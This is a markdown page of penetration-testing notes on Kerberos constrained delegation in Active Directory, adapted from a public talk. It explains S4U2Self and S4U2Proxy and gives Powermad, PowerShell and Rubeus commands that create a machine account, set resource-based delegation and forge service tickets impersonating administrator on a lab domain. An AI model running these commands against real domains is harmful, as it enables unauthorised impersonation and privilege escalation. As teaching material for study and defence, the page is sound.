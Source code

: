 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Constrained

{% hint style="info" %}
All information found below has been adapted from [Attl4s](https://attl4s.github.io/) [video-presentation](https://www.youtube.com/watch?v=gzqq2r6cZjc) and its corresponding [slide deck](https://attl4s.github.io/assets/pdf/You_do_\(not\)_Understand_Kerberos_Delegation.pdf).
{% endhint %}

## Theory

Constrained delegation does not leverage TGTs, and thus, cannot impersonate a user freely on any service (`msds-allowedtodelegateto`). Instead, it uses the `S4U2Self` and `S4U2Proxy` Keberos extensions:

1. **S4U2Proxy**: allows a service to obtain a ST on behalf of a client to another service. The initial client ST is required as evidence that the client has authenticated.
2. **S4U2Self**: allows a service to obtain a ST to itself as evidence that a client has authenticated. Any services (SPN account) can invoke S4U2Self.

## Without Protocol Transition (Kerberos Only)

<figure><img src="../../../../.gitbook/assets/cd_wireshark.png" alt=""><figcaption><p>Figure 1: CD with PT process (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>)</em>.</p></figcaption></figure>

### Exploitation

This process requires only a ST (evidence/additional) as a requirement to invoke it.

We need an account with at least one SPN (Figure 2.1).

```powershell
RBCD ?
# create a machine account (powermad)
New-MachineAccount -MachineAccount attl4s
```

We can impersonate `web01` through its credentials (Figure 2.2).

```powershell
# generate a TGT for web01
.\Rubeus.exe asktgt /user:web01$ /rc4:<hash> /domain:capsule.corp /nowrap /ptt
```

<figure><img src="../../../../.gitbook/assets/cd_exploit_1.png" alt=""><figcaption><p>Figure 2: Creating a SPN account and impersonating <code>web01</code> (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

Any SPN account can configure RBCD for itself. So we will make `web01` to trust `attl4s`, so the latter can impersonate any user to the former (Figure 3).

{% code overflow="wrap" %}
```powershell
Import-Module .\Microsoft.ActiveDirectory.Management.dll
# set the RBCD bit
Set-ADComputer -Identity web01$ -PrincipalsAllowedToDelegateToAccount attl4s$ -Verbose
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/cd_exploit_2.png" alt=""><figcaption><p>Figure 3: Setting the RBCD bit (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

Now, we can use `attl4s` machine to obtain a ST for `web01`, impersonating the `administrator` (`S4U2Self` & `S4U2Proxy`) (Figure 4).

{% code overflow="wrap" %}
```powershell
.\Rubeus.exe s4u /impesonateuser:administrator /user:attl4s /rc4:<hash> /msdsspn:cifs/web01.capsule.corp /nowrap
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/cd_exploit_3.png" alt=""><figcaption><p>Figure 4: Going through the S4U process (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

Since the second ST ticket is `forwardable`, it can be used on Kerberos for authenticating as `administrator` (TGT).

## With Protocol Transition

* PT means "_I don't care how the client authenticates_". It just needs the client's name.&#x20;
* The difference vs. [Without Protocol Transition (Kerberos Only)](constrained.md#without-protocol-transition-kerberos-only) is that the `S4U2Proxy` cannot be invoked as we don't have a ST for the user (since NTLM authentication was used) (Figure 5.1).
* The difference with [RBCD](resource-based.md) is that the KDC checks the `TRUST_TO_AUTH_FOR_DELEGATION` UAC[^1] setting and sees that `web01` is trusted, so it issues a `forwardable` ST to it (Figure 5.2), therefore, the `S4U2Proxy` can now be invoked.

<figure><img src="../../../../.gitbook/assets/cd_withPT_diffs.png" alt=""><figcaption><p>Figure 5: Constrained Delegation with protocol transition process (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

### Exploitation

{% code overflow="wrap" %}
```powershell
.\Rubeus.exe s4u /impersonateuser:administrator /user:web01$ /rc4:<hash> /msdsspn:cifs/sql01.capsule.corp /altservice:http/sql01.capsule.corp /nowrap
```
{% endcode %}

If we compromise a service configured for CD with PT (`web01`), then we can generate a ST for any user we want (`administrator`) with `S4U2Self` pointing to `web01` (Figure 6).

<figure><img src="../../../../.gitbook/assets/cd_pt_exploit_1.png" alt=""><figcaption><p>Figure 6: Getting a <code>forwardable</code> ST as administrator with the <code>S4U2Self</code> for <code>web01</code> (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

The ST generated from `S4U2Self` will be `forwardable`, and thus can be used with `S4U2Proxy` to generate a second ST for the targeted service (`cifs`) as the impersonated user (`administrator`) (Figure 7).&#x20;

<figure><img src="../../../../.gitbook/assets/cd_pt_exploit_2.png" alt=""><figcaption><p>Figure 7: Generating the second ST with <code>S4U2Proxy</code> for the targeted service as administrator (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

Althought, the SPN account will have specific service(s) in the `msDS-AllowedToDelegateTo` attribute (`cifs`) (Figure 8), this can modified to target other services from the same service account (`http`) (Figure 6 & 7).

<figure><img src="../../../../.gitbook/assets/cd_pt_services.png" alt=""><figcaption><p>Figure 8: The <code>msds-allowedtodelegateto</code> attribute of <code>WEB01</code> (<em>image taken from</em><a href="https://attl4s.github.io/assets/pdf/You_do_(not)_Understand_Kerberos_Delegation.pdf"> <em>here</em></a><em>).</em></p></figcaption></figure>

## Resources

* Some great lectures on Constrained Delegation Attacks ([video](https://www.youtube.com/watch?v=gzqq2r6cZjc), [video](https://www.youtube.com/watch?v=Y2Wh2e6eZVc))

[^1]: User Account Control
